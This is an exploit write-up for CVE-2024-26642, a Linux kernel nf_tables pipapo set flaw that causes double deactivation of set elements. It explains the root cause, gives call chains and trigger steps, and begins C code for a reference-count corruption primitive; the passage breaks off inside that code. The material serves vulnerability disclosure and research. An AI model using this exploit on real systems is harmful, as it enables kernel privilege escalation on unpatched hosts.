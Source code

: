 In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it
The method of exploiting CVE-2024-26642 is exactly the same as that of exploiting CVE-2023-6817. If you want to learn how I exploit CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).The only difference is how to construct the two primitives. 

## Primitive
### Primitive_0
I build a function named as `primitive_0` to change the nft_object->use by triggering the vulnerabiltiy:

```c
//make target_obj->use = target_obj->use - repeat_time
void primitive_0(struct nl_sock *socket, char *table, char *target_obj, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *key = malloc(0x40);
    char *set_name = "set for primitive0";
    char *chain_name = "chain for primitive0";
    msg_list[0] = new_set_pipapo_for_timeout_with_anonymous_msg(table, set_name, NFT_OBJECT_CT_EXPECT);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
```
